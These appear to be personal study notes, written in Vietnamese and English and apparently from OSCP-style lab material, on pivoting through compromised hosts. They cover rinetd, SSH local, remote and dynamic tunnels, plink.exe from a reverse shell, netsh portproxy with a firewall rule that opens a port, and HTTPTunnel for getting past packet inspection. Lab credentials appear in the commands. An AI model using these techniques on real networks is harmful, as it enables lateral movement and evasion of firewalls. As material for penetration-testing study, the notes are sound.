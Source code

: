 ## Port Forwarding
```ad-info
Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.
 Machine / account 
 	 attacker | kali@ttnho  
	 client1  | ntt@debian  
 	 client2  | winserver 2016
*Note: kali and debian open port ssh*
```

#### RINETD (use rinetd  to redirect any traffic)
In this fairly-common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.
![](port-redirection-tunneling/Pasted%20image%2020220818233840.png)

Check  access the internet:
```bash
kali@ttnho:~$ ping google.com -c 1
kali@ttnho:~$ nc -nvv 216.58.207.142 80
```
*Vì máy linux client không thể truy cập internet do đó để thực hiện transfer  file to internet-connected host, chúng ta phải transfer them to Linux web  server và sau đó transfer chúng 1 lần nữa tới our intended destination. Thay vào đó chúng ta có thể sử dụng port forwarding tool "rinetd" để redirect traffic on out kali linux server.*

Install rinetd tool:
```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```
Sau khi cài đặt rinetd, thực hiện edit file configuration */etc/rinetd.conf*  thực hiện tạo forwarding yêu cầu có 4 paramerers:  *bindaddress - bindport - connectaddress - connectport*

Install rinetd tool
```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule	0.0.0.0 80 216.58.207.142 80
Check file configuration rinetd:
```bash
kali@ttnho:~$ cat /etc/rinetd.conf
	...
	# bindadress  bindport  connectaddress  connectport
	0.0.0.0 80 216.58.207.142 80
	...
```

Restart rinetd service
```bash
kali@ttnho:~$ sudo service rinetd restart
```
![](port-redirection-tunneling/Pasted%20image%2020220818233811.png)


## SSH Tunneling
### SSH Local Port Forwarding
SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar	to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:
```bash
root@ttnho:~$ cat 	/root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding 
```bash
kali@ttnho:~$ sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
kali@ttnho:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```
	   	![](port-redirection-tunneling/Pasted%20image%2020220819133119.png)

### SSH Remote Port Forwarding
```bash
ntt@debian:~$ ssh -N -R [bind_address:]port:host:hostport [username@address]
ntt@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```
	![](port-redirection-tunneling/Pasted%20image%2020220819133150.png)

### SSH Dynamic Port Forwarding
Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding
```bash
kali@ttnho:~$ ssh -N -D [address_bind]:port_bind [username@<IP_server>]		
kali@ttnho:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config
```bash
kali@ttnho:~$ cat /etc/proxychains.conf
	...
	[ProxyList]
	#add proxy here
	#meanwile
	#defaults set to "tor"
	socks4 127.0.0.1 8080
```
		![](port-redirection-tunneling/Pasted%20image%2020220819135043.png)

Thực thi lênh với proxychains
```bash
kali@ttnho:~$ sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

## PLINK.exe
```ad-note
Tình huống: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.
=>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)
```

```powershell
c:\nho> plink.exe
c:\nho> plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
c:\nho> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
kali@ttnho:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH
```ad-note
Yêu cầu:
+ The windows system must have the IP Helper service running
+ IPv6 support must be enabled for the interface we want to use
Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: Các câu lệnh đc thực hiện trên máy compromised
```

```powershell
c:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
c:\Windows\system32> netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
c:\Windows\system32>netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
kali@ttnho:~$ sudo nano /etc/samba/smb.conf
kali@ttnho:~$ cat /etc/samba/smb.conf
kali@ttnho:~$ sudo /etc/init.d/smbd restart
kali@ttnho:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator

kali@ttnho:~$ sudo mkdir /mnt/win10_share
kali@ttnho:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@ttnho:~$ ls -l /mnt/win10_share/
kali@ttnho:~$ cat /mnt/win10_share/data.txt
```

## HTTPTunneling through Deep Packet Inspection
```ad-note
Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.
```

![](port-redirection-tunneling/Pasted%20image%2020220823145718.png)

View content of the http_tunneling
```shell
root@debian:~$ cat /root/port_forwarding_and_tunneling/http_tunneling.sh
root@debian:~$ /root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel
```shell
kali@ttnho:~$ apt-cache search httptunnel
kali@ttnho:~$ sudo apt install httptunnel
```

Local port forward from debian to windows server remote desktop port
```shell
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ntt@debian:~$ ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel
```shell
ntt@debian:~$ hts --forward-port localhost:8888 1234
ntt@debian:~$ ps aux | grep hts
ntt@debian:~$ ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel
```shell
kali@ttnho:~$ htc --forward-port 8080 10.11.0.128:1234
kali@ttnho:~$ ps aux | grep htc
kali@ttnho:~$ ss -antp | grep "8080"
```

Check rdp from kali to windows server
```shell
kali@ttnho:~$ rdesktop 127.0.0.1:8080
```